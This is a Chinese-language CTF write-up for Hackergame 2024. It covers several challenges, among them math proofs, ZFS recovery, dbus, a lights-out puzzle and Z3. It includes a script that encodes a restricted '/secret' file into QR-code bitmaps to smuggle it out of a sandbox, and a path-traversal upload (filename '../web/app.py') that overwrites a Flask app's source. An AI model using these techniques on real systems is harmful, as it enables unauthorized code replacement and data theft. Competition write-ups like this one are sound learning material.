Enter the function f(x): x**58*(x-1)**58*(43444330732582576432823932344959872096467106681379435177221*x**2-54032161738786733873906144846192037501945349793983601971230*x+43444330732582576432823932344959872096467106681379435177221)/(7252073987508484897096321246494804725201900429513747125834811965440*(x**2+1))
Q.E.D.
Please prove that pi>=6833550885400778342278366506434406259307661563/2175186804563063724657210736907240556491007497
Enter the function f(x): x**59*(x-1)**59*(-554170400706544014209099896420086900433747461191725164347911*x**2+358680853541112845157149172193505512826783275807485679724895*x-195489547165431169051950724226581387606964185384239484623016)/(96282658478777841337216729697786172574171417654556186650422143877120*(x**2+1))
Q.E.D.
Please prove that pi>=209771991419733625834133456316271441889990128508/66772498713362523762477326128306203909647162723
Enter the function f(x): x**63*(x-1)**63*(-1058412487233309663873239859909037294571579565822242982633974897*x**2-581694282397127234973122045579063886593741019741147076101733263*x-1640106769630436898846361905488101181165320585563390058735708160)/(624589479791462489640116656194675193803692629520479269345741883375091712*(x**2+1))
Q.E.D.
Please prove that pi>=7472727801629465043893678428904158000901259158640/2378643136019123293243206398534498294019914117443
Enter the function f(x): x**64*(98984762636987284561135983829919810993758506523949534152057007-61648968378615914091744421263386785957472444789794042010249920*x**2)*(x-1)**64/(172479155336619150981778149018745915601647560708874223736798359844814848*(x**2+1))
Q.E.D.
Please prove that pi>=208524175025688263199892938067390895966144109045571/66375306418995676290526134328881050433144208321153
Enter the function f(x): x**66*(x-1)**66*(14875682558892423599690467119835139839082134910824075661092034939*x**2-11121831069473227015506428596752897576680784106898964578319772170*x+14875682558892423599690467119835139839082134910824075661092034939)/(23883950357512106989591897850406433442540809985383810420072926050160476160*(x**2+1))
Q.E.D.
Please prove that pi>=5671468480635779347890726544233306449091854623742032/1805284486566131132409583477552745692177899939320321
Enter the function f(x): x**67*(x-1)**67*(-118577405871134099112935555426434205518219190254825061365412498801*x**2+75063090964909386887704416064183251739156976105949616444031862649*x-43514314906224712225231139362250953779062214148875444921380636152)/(322393520830958900286101691510444103170614334985307033650860664459418927104*(x**2+1))
Q.E.D.
Please prove that pi>=239695734962562446792612516321923148840214663781049556/76297522114673306799945650250169666241984085087359851
Enter the function f(x): x**67*(x-1)**67*(-3831479772068039501367441919623714312050335769675048281820543228731*x**2+3172424006027214061278366148178425387373994880848441676023364355219*x-659055766040825440089075771445288924676340888826606605797178873512)/(13625457354932191279181922558739827011547439334115473731083777237557731917824*(x**2+1))
Q.E.D.
Please prove that pi>=5417593151259196731476764283080339325085987149537214740/1724473459367398751436279382658760391946307891862908571
Enter the function f(x): x**72*(2286892137467010604773469177610424702435586577058284727937377031934183-501174620445186108059102006006564119244063947849293113844952763721400*x**2)*(x-1)**72/(47898622177190536484538387028907911916446699172749121012117475292108367459254272*(x**2+1))
Q.E.D.
Please prove that pi>=251060097237093933270652668981545910429863542101161690255/79914910976830788738215765850512517326494161373975497049
Enter the function f(x): x**74*(x-1)**74*(6080276004021620111813994071272860161741877988907952990963154079809922145*x**2-4748011025310591001445609029714996029735807671919476651292107572418595382*x+6080276004021620111813994071272860161741877988907952990963154079809922145)/(163140416598051332749126236043425601187881099768320398101881585331614550303573016576*(x**2+1))
Q.E.D.
Please prove that pi>=9067983337325382129269313629934608067120919042398735292804/2886428744020552677534470783591149433402588377218460168483
Enter the function f(x): x**75*(x-1)**75*(-8499995447395520873326313909782334616628174452294893358862465136199739944283*x**2+6430962945242625673574800715723829634679148254376337666255518626443641832275*x-2069032502152895199751513194058504981949026197918555692606946509756098112008)/(441932408505678656850779847740019859981161107290909746445126644481508519308138276454400*(x**2+1))
Q.E.D.
Please prove that pi>=247619607564175933565814217620235641257311965480018113240166/78819769100627753057416251433350314279927781874588920896909
Enter the function f(x): x**78*(x-1)**78*(28984413647618885972171709553296168343428380741592773996793419870195004604891*x**2+2535054960211824781844897619498695720487772763112311979832842484943836193025210*x+28984413647618885972171709553296168343428380741592773996793419870195004604891)/(348415300725515797456197434246884801092804517934301924106594240625700763066381448113029120*(x**2+1))
Q.E.D.
flag{y0u_ar3_7he_Ramanujan_0f_in3quality_903861f099}
```
挺简单，就是有点费手。我用的触摸板……

## \[general\] 无法获得的秘密
一开始试图用音频脉冲编码取得数据，但这玩意声卡好像废了。

那要怎么在画面编码并保持一定容错性呢……毕竟是 noVNC 传过来的，不好说是不是无损。也不指望纠错，起码不要读出错误的数据。

那作为 QR 码仙人的我就想到了用 QR 码。实在懒得手搓 Reed-Solomon。

环境可以用 Python，找来 [nayuki/QR-Code-generator/python/qrcodegen.py](https://github.com/nayuki/QR-Code-generator/blob/master/python/qrcodegen.py)，并在后面附加：
```Python
bmp = b'BMn\x0f\x0c\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xc0\x00\x00\x00\xa2\x80\x00\x00\x01\x00\x01\x00\x00\x00\x00\x000\x0f\x0c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'

with open('/secret', 'rb') as file:
    count = 0
    while True:
        data = file.read(2950)
        if not data:
            break
        segs = [QrSegment.make_bytes(bytes([count]) + data)]
        qr = QrCode.encode_segments(segs, QrCode.Ecc.LOW, 40, 40)
        for y in range(-4, qr.get_size() + 4):
            bitcount = 0
            buf = 0
            # 4 B 对齐
            for x in range(-7, qr.get_size() + 8):
                buf ^= not(qr.get_module(x,y))
                if bitcount == 7:
                    bmp += bytes([buf])
                    buf = 0
                    bitcount = 0
                else:
                    buf <<= 1
                    bitcount += 1
        count += 1

with open('test.bmp', 'wb') as file:
    file.write(bmp)
```
<del>喜欢我手搓 BMP 吗？</del>

↑但正是手搓 BMP，所以垂直方向镜像了。懒得处理主要是，反正 QR 码设计有考虑到镜像。

然后把整个代码压缩，编码成 Base64：
```Python
import gzip
import base64

with open('input.txt', 'wb') as file:
    data = b"import gzip\nimport base64\nwith open('qrcodegen.py', 'wb') as file:\n    file.write(gzip.decompress(base64.b64decode(b'"

    with open('qrcodegen.py', 'rb') as file2:
        data += base64.b64encode(gzip.compress(file2.read()))

    data += b"')))\n\n"

    file.write(data)
```
再用 AHK 模拟键盘输入传过去：
```AutoHotkey
Text := FileRead("input.txt")
F10::
{
    Loop Parse, Text
    {
        SendText(A_LoopField)
        Sleep(25)
    }
}
```
图片出来以后用 Firefox 打开，录像并滚动就是了。建议把 DPI 缩放关了。



确实在一次连接内取得了所有数据，但是读出来还需花点功夫。能不能自动化呢？

[Add support of multiple barcodes per file](https://github.com/dlenski/python-zxing/pull/13)
```Python
import zxing
reader = zxing.BarCodeReader()

dic = {}

# 翻得足够稳的话其实可以适当设步长抽样
for frame in range(1270):
    barcodes = reader.decode('frame-%s.png' % frame, multi = True)
    for barcode in barcodes:
        if barcode.raw_bits:
            assert barcode.raw_bits[0] & 0xF0 == 0x40
            rem = b''
            for i in range(len(barcode.raw_bits) - 1):
                rem += bytes([((barcode.raw_bits[i] & 0x0F) << 4) ^ (barcode.raw_bits[i + 1] >> 4)])
            length = int.from_bytes(rem[0:2], byteorder = 'big')
            count = rem[2]
            print(count)
            data = rem[3:length + 2]
            if count in dic:
                assert dic[count] == data
            else:
                dic[count] = data

for count, data in dic.items():
    with open('%s' % count, 'wb') as file:
        file.write(data)
```
不过 ZXing 这个识别多码的效果确实也不行，只能说聊胜于无……

……真这么说其实自己搞个带有 Reed-Solomon 码的整体位图是不是还更快？就不用滚来滚去了。但确实也给手搓带来了难度。

或者干脆给每段生成单独的图片，写个可以翻页的图片查看网页，也比滚来滚去稳得多。

但不管怎样还是出了。不得不说这题让我想起了 GeekGame 2024 的 TAS 题第三问「诗人握持」——那个也是盯着 noVNC 的画面看，过于坐牢。
```
flag{SeCret_cAN_B3_Le4K3d_FrOm_R3s7RIc7Ed_Env_b5bc84be31}
```

## \[general\] ZFS 文件恢复
……只能说 OpenZFS on Windows 根本没法正常用。还是用 VMWare 装了个 Ubuntu 继续操作。

保险起见，强烈建议只读挂载：
```
sudo losetup -fP ./zfs.img
sudo zpool import -o readonly=on hg2024
```
但是挂上去之后发现快照压根就没有东西。没办法，只好上 zdb 这个大杀器了。
```
ishisashi@ishisashi-virtual-machine:~/Downloads$ sudo zpool history -il hg2024
History for 'hg2024':
2024-10-23.21:37:22 [txg:4] create pool version 5000; software version zfs-2.1.11-0-ge25f9131d-dist; uts e26fa153bcab 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64 [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set ashift=9 [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@async_destroy=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@empty_bpobj=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@lz4_compress=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@multi_vdev_crash_dump=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@spacemap_histogram=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@enabled_txg=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@hole_birth=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@extensible_dataset=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@embedded_data=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@bookmarks=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@filesystem_limits=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@large_blocks=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@large_dnode=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@sha512=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@skein=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@edonr=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@userobj_accounting=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@encryption=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@project_quota=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@device_removal=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@obsolete_counts=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@zpool_checkpoint=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@spacemap_v2=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@allocation_classes=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@resilver_defer=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@bookmark_v2=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@redaction_bookmarks=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@redacted_datasets=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@bookmark_written=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@log_spacemap=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@livelist=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@device_rebuild=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@zstd_compress=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:4] set feature@draid=enabled [on e26fa153bcab]
2024-10-23.21:37:22 [txg:5] set hg2024 (54) atime=0 [on mira]
2024-10-23.21:37:22 [txg:5] set hg2024 (54) compression=10 [on mira]
2024-10-23.21:37:22 [txg:5] set hg2024 (54) redundant_metadata=3 [on mira]
2024-10-23.21:37:22 [txg:5] set hg2024 (54) xattr=0 [on mira]
2024-10-23.21:37:22 zpool create -o ashift=9 -O atime=off -O compression=gzip -O redundant_metadata=none -O xattr=off hg2024 /dev/loop0 [user 0 (root) on mira:linux]
2024-10-23.21:37:22 [txg:7] create hg2024/data (132)   [on mira]
2024-10-23.21:37:22 [txg:9] set hg2024/data (132) recordsize=4096 [on mira]
2024-10-23.21:37:22 (15ms) ioctl create
    input:
        type: 2
        props:
            recordsize: 4096
 [user 0 (root) on mira:linux]
2024-10-23.21:37:22 zfs create -o recordsize=4k hg2024/data [user 0 (root) on mira:linux]
2024-10-23.21:37:22 [txg:11] snapshot hg2024/data@mysnap (139)   [on mira]
2024-10-23.21:37:22 (9ms) ioctl snapshot
    input:
        snaps:
            hg2024/data@mysnap
        props:
 [user 0 (root) on mira:linux]
2024-10-23.21:37:22 zfs snapshot hg2024/data@mysnap [user 0 (root) on mira:linux]
2024-10-23.21:37:22 [txg:12] inherit hg2024/data (132) recordsize=131072 [on mira]
2024-10-23.21:37:22 zfs inherit recordsize hg2024/data [user 0 (root) on mira:linux]
2024-10-23.21:37:22 zpool export hg2024 [user 0 (root) on mira:linux]

ishisashi@ishisashi-virtual-machine:~/Downloads$ sudo zdb -ul hg2024
------------------------------------
LABEL 0
------------------------------------
    version: 5000
    name: 'hg2024'
    state: 1
    txg: 27
    pool_guid: 16560339627603271025
    errata: 0
    hostid: 86791140
    hostname: 'mira'
    top_guid: 15863990169148721018
    guid: 15863990169148721018
    vdev_children: 1
    vdev_tree:
        type: 'disk'
        id: 0
        guid: 15863990169148721018
        path: '/dev/loop0'
        whole_disk: 0
        metaslab_array: 68
        metaslab_shift: 24
        ashift: 9
        asize: 62390272
        is_log: 0
        create_txg: 4
    features_for_read:
        com.delphix:hole_birth
        com.delphix:embedded_data
    labels = 0 1 2 3 
    Uberblock[4]
	magic = 0000000000bab10c
	version = 5000
	txg = 4
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[5]
	magic = 0000000000bab10c
	version = 5000
	txg = 5
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[6]
	magic = 0000000000bab10c
	version = 5000
	txg = 6
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[7]
	magic = 0000000000bab10c
	version = 5000
	txg = 7
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[9]
	magic = 0000000000bab10c
	version = 5000
	txg = 9
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[10]
	magic = 0000000000bab10c
	version = 5000
	txg = 10
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[11]
	magic = 0000000000bab10c
	version = 5000
	txg = 11
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[12]
	magic = 0000000000bab10c
	version = 5000
	txg = 12
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[13]
	magic = 0000000000bab10c
	version = 5000
	txg = 13
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[18]
	magic = 0000000000bab10c
	version = 5000
	txg = 18
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
    Uberblock[27]
	magic = 0000000000bab10c
	version = 5000
	txg = 27
	guid_sum = 13977585723042440427
	timestamp = 1729690642 UTC = Wed Oct 23 21:37:22 2024
	mmp_magic = 00000000a11cea11
	mmp_delay = 0
	mmp_valid = 0
	checkpoint_txg = 0
        labels = 0 1 2 3 
```
但是也就切到 Uberblock[10] 时能看到个空的 flag1.txt，好像没甚么用。

### \[Flag 2\] Shell Script
直接在镜像里面搜 flag 倒是能看到 flag2.sh 的内容：
```sh
#!/bin/sh
flag_key="hg2024_$(stat -c %X.%Y flag1.txt)_$(stat -c %X.%Y "$0")_zfs"
echo "46c518b175651d440771836987a4e7404f84b20a43cc18993ffba7a37106f508  -" > /tmp/sha256sum.txt
printf "%s" "$flag_key" | sha256sum --check /tmp/sha256sum.txt || exit 1
printf "flag{snapshot_%s}\n" "$(printf "%s" "$flag_key" | sha1sum | head -c 32)"
```
可是缺访问时间和修改时间。于是我找了个叫 UFS Explorer RAID Recovery 的商业程式，它确实能扫出东西。


这个 2006 年 3 月 9 日 23:56:50（UTC+8）到底是甚么呢？



……

太臭了。绝对故意的。
```sh
flag_key="hg2024_1141919810.233696969_2109876543.1357924680_zfs"
echo "46c518b175651d440771836987a4e7404f84b20a43cc18993ffba7a37106f508  -" > /tmp/sha256sum.txt
printf "%s" "$flag_key" | sha256sum --check /tmp/sha256sum.txt || exit 1
printf "flag{snapshot_%s}\n" "$(printf "%s" "$flag_key" | sha1sum | head -c 32)"
```
```
flag{snapshot_6db0f20dd59a448d314cb9cabe8daea9}\n
```

### \[Flag 1\] Text File
很不幸，这玩意导出 flag1.txt 就卡死。反复篡改大小的值发现最大只能导出 4096 位元组。怎么办呢？

从之前的日志可以看到，flag1.txt 应该是 gzip 存储的：
```
2024-10-23.21:37:22 zpool create -o ashift=9 -O atime=off -O compression=gzip -O redundant_metadata=none -O xattr=off hg2024 /dev/loop0 [user 0 (root) on mira:linux]
```
那就把导出的 4096 位元组压成 gzip，然后匹配，果然发现了数据。



……？不是，0x789C 不应该是 zlib 吗？老实讲我看到日志的 gzip 就去搜 0x1F8B 了，但压根没找到东西。不管了，反正解压就是。

结果发现解压出来的东西真就只有 4096 位元组，戛然而止了。

但其实这段数据后面还有一个 zlib 包，把它强制解压出来是这样的：
```
ag{p1AInNNmmnnmmntExxt_50easy~r1ght?~}\n
```
所以完整的 Flag 就是：
```
flag{p1AInNNmmnnmmntExxt_50easy~r1ght?~}\n
```
……？结果我还是在 Windows 环境下过了这题，那 Ubuntu 不是白装了？

## \[general\] 链上转账助手
### \[Flag 1\] 转账失败
_最佳答案：我不知道_
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract empty {}
```
```
The challenge you want to play (1 or 2 or 3): 1
Player bytecode: 6080604052348015600e575f80fd5b50603e80601a5f395ff3fe60806040525f80fdfea2646970667358221220dc58cb66582301de5e6400a2e2d6a0df092997f04f7201dace3522c25fce3bf264736f6c634300081a0033
Launching anvil...
Deploying challenge contract...
Challenge contract address: 0x5FbDB2315678afecb367f032d93F642f64180aa3
Deploying player contract...
flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_a5ee4d7c67}
```
我完全没法理解为甚么能过。

## \[general\] 不太分布式的软总线
### \[Flag 1\] What DBus Gonna Do?
考察了 dbus-send 的基本用法。
```Bash
#!/bin/bash

dbus-send --system --dest=cn.edu.ustc.lug.hack.FlagService --print-reply /cn/edu/ustc/lug/hack/FlagService cn.edu.ustc.lug.hack.FlagService.GetFlag1 string:'Please give me flag1'
```
```
method return time=1730985901.931673 sender=:1.0 -> destination=:1.1 serial=3 reply_serial=2
   string "flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_74cafd8f99}
"
```
需要注意的是，提交脚本时换行务必采用 LF，CR LF 的话过不了……坑死个人。

## \[math\] 关灯
### \[Flag 1\] Easy
一看到 AES 立马就跑了，但其实好像不用管这个。直接暴力 Z3。
```Python
from z3 import *

n = 3

switch_array = [[[Bool('switch_%s_%s_%s' % (i, j, k)) for k in range(n)] for j in range(n)] for i in range(n)]
lights_array = [[[Bool('lights_%s_%s_%s' % (i, j, k)) for k in range(n)] for j in range(n)] for i in range(n)]

def convert_switch_array_to_lights_array(switch_array):
    lights_array = [[[BoolVal(False) for k in range(n)] for j in range(n)] for i in range(n)]
    for i in range(n):
        for j in range(n):
            for k in range(n):
                lights_array[i][j][k] ^= switch_array[i][j][k]
    for i in range(n - 1):
        for j in range(n):
            for k in range(n):
                lights_array[i][j][k] ^= switch_array[i + 1][j][k]
    for i in range(n - 1):
        for j in range(n):
            for k in range(n):
                lights_array[i + 1][j][k] ^= switch_array[i][j][k]
    for i in range(n):
        for j in range(n - 1):
            for k in range(n):
                lights_array[i][j][k] ^= switch_array[i][j + 1][k]
    for i in range(n):
        for j in range(n - 1):
            for k in range(n):
                lights_array[i][j + 1][k] ^= switch_array[i][j][k]
    for i in range(n):
        for j in range(n):
            for k in range(n - 1):
                lights_array[i][j][k] ^= switch_array[i][j][k + 1]
    for i in range(n):
        for j in range(n):
            for k in range(n - 1):
                lights_array[i][j][k + 1] ^= switch_array[i][j][k]
    return lights_array

def convert_string_to_array(string):
    array = [[[bool(int(string[n ** 2 * i + n * j + k])) for k in range(n)] for j in range(n)] for i in range(n)]
    return array

def convert_array_to_string(array):
    string = ''.join([str(int(k)) for i in array for j in i for k in j])
    return string

solver = Solver()

lights_array_gen = convert_switch_array_to_lights_array(switch_array)
for i in range(n):
    for j in range(n):
        for k in range(n):
            solver.add(lights_array[i][j][k] == lights_array_gen[i][j][k])

str_in = input()
assert(len(str_in) == n ** 3)

lights_array_in = convert_string_to_array(str_in)
for i in range(n):
    for j in range(n):
        for k in range(n):
            solver.add(lights_array[i][j][k] == lights_array_in[i][j][k])

check = solver.check()

if check == sat:
    model = solver.model()
    res = [[[is_true(model[switch_array[i][j][k]]) for k in range(n)] for j in range(n)] for i in range(n)]
    print(convert_array_to_string(res))
elif check == unsat:
    print('unsat')
else:
    print('unknown')
```
```
Enter difficulty level (1~4): 1
100110011011010110110011011
Enter your answer: 011110011110111001110001001
flag{bru7e_f0rce_1s_a1l_y0u_n3ed_388316330a}
```

### \[Flag 2\] Medium
```
Enter difficulty level (1~4): 2
11110101100110001000011100110011011000111111000100110101101010101001110101010101100100101011001011111000010001001000001011011
Enter your answer: 01010111011101010101101111100001111001111000001001011010111101100111011110011100000101001001110101001000010100101011011101011
flag{prun1ng_1s_u5eful_35f7d09d90}
```

### \[Flag 3\] Hard
```
Enter difficulty level (1~4): 3
00010010101101011100010001010111010100100010111000001011101010011011010101100111000111110011100001000110110110101100110101110001011010100000100001001001011110011111110101001011011101001110011110011010010111001101010011011110001100011110001011010001001111111110111011111010110110110101000011001011100110111001101010000101110111001001000001001100011111100000001101010111010000100001001000101101110000101010011111000101001111000011111011001010011100010101000110001001011000111111100001110000001010110010010111010011010110000110110101101001011100011001100001100010111110011111001100001000000001111010100111001011111001001011000111000011011111111001001100101111101100101010111001101100011000100000001011111011111100000011110100001000001111001001001100010100100110000001010011110110001011111011011011010011011001010010001010101110111000110110100000110110001001101001000110000100010101110000000101001001001011110010011110101011001111100011001100110110101100001100001110010000110000110010100111111000100111101100001001101011100011100001100001011000101011000011111110001001100100010111100001010010101100110111000001100111111111110011010010100001010000000110101111110010011111101100100111001111101010001001011001011000110000110001011010010000110101010110001100000100011111100111101011111110001000000000111011101110111110111000111100010101001
Enter your answer: 11100110001010010110000110111001111111010111100100000110000101010100011001000101111010011001001000011000111011001110000010000000011011011110111001000011010010100000011101000011010001110000100010110011110001000101111010001011011011100100000010110110110011100011010111001110000101110001100001101010000111001001011111111001011100100011100101110001110010110000111101010000010011000111101011001000000010110011001011110011010100001011011010010101000100101000010000011110000100101000011000001011100000001111100111110000000001111011111110111111110100001001111110100000100000100110100011101111000001011001101001000011010000010100111100001110110011101000101001111110001101010110101000001100101000100010001000010001101001101011010011001100000111111001001011111001011111100101111111011011100001000010010000001001110000101010110001100011000101110000100111100110100100100110000101111110001100010011011011000001010101000010000110101101001110000101100111101111101000001111011100110100011011101010010000000110000111010101000100000000001101100000001001000100011101001011110111100110011001110011110011011101100101110100010100111011010100111010000001001000101010110001010100010010100111000001101111000100110010001111110100010011100011111100101111100001000001001110000111111010001010010110111101100110011010000110000111001011100100110011101101001010011
flag{lin3ar_alg3bra_1s_p0werful_1a4afc6d18}
```
……这玩意我手动复制粘贴都用不了 20 秒。

### \[Flag 4\] Impossible
现在好好考虑这个关灯问题到底做了甚么。在此约定，下标从 $0$ 开始，在 $\text{GF}(2)$ 上运算。

令 $S$ 与 $L$ 为 $n^3$ 维行（column）向量，规定 $S_{n^2i+nj+k,0}=\text{switch_array}[i,j,k]$ 且 $L_{n^2i+nj+k,0}=\text{lights_array}[i,j,k]$。

设 $L=AS$，则显然 $A$ 可以由下列方法生成：
```Python
A = [[0 for j in range(n ** 3)] for i in range(n ** 3)]

for i in range(n):
    for j in range(n):
        for k in range(n):
            A[n ** 2 * i + n * j + k][n ** 2 * i + n * j + k] = 1
            if i != n - 1:
                A[n ** 2 * i + n * j + k][n ** 2 * (i + 1) + n * j + k] = 1
            if i != 0:
                A[n ** 2 * i + n * j + k][n ** 2 * (i - 1) + n * j + k] = 1
            if j != n - 1:
                A[n ** 2 * i + n * j + k][n ** 2 * i + n * (j + 1) + k] = 1
            if j != 0:
                A[n ** 2 * i + n * j + k][n ** 2 * i + n * (j - 1) + k] = 1
            if k != n - 1:
                A[n ** 2 * i + n * j + k][n ** 2 * i + n * j + k + 1] = 1
            if k != 0:
                A[n ** 2 * i + n * j + k][n ** 2 * i + n * j + k - 1] = 1
```
……这其实是个稀疏矩阵。很遗憾这玩意并不总是满秩，所以逆都不一定存在。

以上代码不难改写成一阶语句而得到形式描述，立刻能证明该矩阵对称。

但很遗憾的是，有限域上的对称矩阵不一定能对角化。

## \[web\] 禁止内卷
这题我早就有思路了——其实是随手把玩时发现 answers.json 可以换掉，那把网站代码换了就行。

只是一开始不知道源代码的档案名是甚么，一直试图找出目录结构，因而卡住了。

后来试图搭 Flask 环境时发现：
```
Error: Could not locate a Flask application. Use the 'flask --app' option, 'FLASK_APP' environment variable, or a 'wsgi.py' or 'app.py' file in the current directory.
```
啊那大抵是 app.py？所以魔改个 app.py：
```Python
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)


def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        # sanitize answer
        for idx, i in enumerate(answers):
            if i < 0:
                answers[idx] = 0
    return answers


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html", results=sorted(results))


@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")


@app.route("/nandakore", methods=["GET"])
def nandakore():
    answers = ""
    with open("answers.json", "r") as f:
        answers = f.read()
    return answers
```
然后把它传上去，用 Fiddler 修改路径：
```
Content-Disposition: form-data; name="file"; filename="../web/app.py"
Content-Type: text/x-python
```
再访问 nandakore：
```
https://chal02-k8mnd5e6.hack-challenge.lug.ustc.edu.cn:8443/nandakore
